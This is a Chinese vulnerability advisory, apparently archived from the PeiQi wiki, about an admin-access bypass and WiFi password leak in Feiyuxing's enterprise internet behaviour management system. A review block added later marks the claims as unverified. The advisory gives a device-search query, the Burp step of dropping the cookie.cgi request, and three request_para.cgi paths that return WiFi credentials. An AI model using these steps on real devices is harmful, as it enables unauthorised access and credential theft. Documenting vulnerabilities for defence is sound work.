







# 飞鱼星 企业级智能上网行为管理系统 权限绕过信息泄露漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：飞鱼星企业级智能上网行为管理
- 本文讨论：cookie.cgi前端检查 + request_para.cgi WiFi信息泄露
- 版本、权限与配置前提：访问home/index后拦cookie请求；无版本
- 资料类型：前端访问绕过及WiFi泄露聚合；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- Drop请求只证明前端显示，服务器管理员权限需业务API验证
- WiFi接口泄露是独立服务端风险，不应仅因后台页面加载而推定权限
- 无型号/补丁，截图依赖

### 操作风险与恢复

- 读取内容可能包含配置、账户或个人数据；应只保存授权环境中最小必要的响应，不能由接口可达推定敏感内容已泄露

### 待核与来源

- 后台真实授权和WiFi响应字段、固件待确认
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Lz08AHM1vrBvLbI2zKVCxg)


**一****：漏洞描述🐑**

飞鱼星 企业级智能上网行为管理系统 存在权限绕过以及信息泄露漏洞，可以获取管理员权限以及用户密码

**二:  漏洞影响🐇**

****飞鱼星 企业级智能上网行为管理系统****

**三:  漏洞复现🐋**

```
title="飞鱼星企业级智能上网行为管理系统"
```



**访问主页使用 Burp 抓包**

```
http://xxx.xxx.xxx.xxx/home/index.html
```



**其中使用 Burp Durp 掉 cookie.cgi 请求包**



**成功越权后台，其中还存在敏感信息泄露**

```
/request_para.cgi?parameter=wifi_info      #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```



 ****四:  Goby & POC🦉****



 ****五:  关于文库🦉****

****（文库暂时关闭一段时间，敏感问题解决后再次开放~）****

**在线文库：**

**http://wiki.peiqi.tech**

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**






**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
